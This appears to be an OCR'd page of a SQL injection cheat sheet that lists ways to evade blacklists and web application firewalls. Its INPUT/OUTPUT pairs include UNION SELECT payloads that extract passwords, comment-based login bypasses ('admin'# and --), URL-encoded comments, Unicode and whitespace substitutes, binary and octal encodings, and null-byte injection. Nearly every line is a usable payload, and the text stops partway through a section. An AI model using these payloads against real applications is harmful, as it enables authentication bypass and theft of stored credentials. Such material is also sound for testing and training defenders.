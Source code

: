 INPUT: ?username = 1%2f%2a*/UNION%2fa%2a*/SELECT%2f%2a*/password%2f%2a*/FROM%2f%2a*/table_name#
OUTPUT: select * from table_name where username = 1/**/UNION/**/SELECT/**/password/**/FROM/**/table_name;

Here %2f=’/’ and %2a=’*’

INPUT: ?username =1+union%2bselect%2bpassword%2bfrom%2btable_name#
OUTPUT: select * from table_name where username =1 union select password from table_name;

Here %2b=’+’

INPUT: ?username = ‘admin’%23 
OUTPUT: select * from table_name where username = ‘admin’#and password=’’;

INPUT: ?username = ‘admin’%2d%2d 
OUTPUT: select * from table_name where username = ‘admin’-- and password=’’;

## Unicode Encoding
In this encoding standard, some of the characters can be used as a substitute for the ASCII values that are blacklisted and thus bypass it to dump the database.

INPUT: ?username =āďḾĩň#
OUTPUT: select * from table_name where username =’āďḾĩň’;
SELECT 'Ä'='A';

## Ascii substitute
These ASCII characters have multiple alternatives which has a different value but their functions would be similar and can be used to bypass blacklist.

Bypassing space blacklist
INPUT: select%09*%09from%09table_name%09where%09username=’admin’;
OUTPUT: select * from table_name where username=’admin’;
Correspondence: %0b(Vertical Tab), %0c(New Form), %09(Horizontal Tab), %0a(New Line) 

## Base Conversion
By representing values that are blacklisted in different bases would help bypass the filter

INPUT: ?username =0b0110000101100100011011010110100101101110
OUTPUT: select * from table_name where username =admin;

INPUT: ?username =0o141144155151156
OUTPUT: select * from table_name where username =admin;

## Null Byte Injection
When we provide a URL-encoded null byte (%00) before the string to be bypassed will remove everything after the null byte.

INPUT: ?username =’admin’;%00
OUTPUT: select * from table_name where username =’admin’;

## Changing Cases
The SQL Keywords are case-insensitive and hence when a WAF blocks a particular case of string, we can bypass it by giving varied cases. 

